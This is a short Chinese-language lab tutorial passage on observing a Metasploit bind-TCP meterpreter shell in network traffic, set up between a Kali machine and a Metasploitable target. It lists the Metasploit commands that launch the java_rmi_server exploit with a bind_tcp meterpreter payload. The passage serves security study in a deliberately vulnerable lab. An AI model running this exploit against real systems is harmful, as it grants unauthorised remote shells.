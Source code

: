 

### 从 TCP 流里观察正向 shell

kali：192.100.200.114

metasploitable：10.100.200.156



```
use exploit/multi/misc/java_rmi_server
set RHOST 10.100.200.156
set PAYLOAD java/meterpreter/bind_tcp
```



我们使用 blind_tcp 方式的 meterpreter shell，在第一阶段，meterpreter shell 会在目标机器上监听一个 TCP 端口，等着 msf 连上去，把剩余的 payload 发过去。本质上说，就是我们在目标机器上创建了一个服务程序，然后我们再去连接到这个 shell 上，获得完整的 shell



![img](assets/1587126080452-62cc2e9a-7b2d-445b-9834-20bae466e0ec.png)



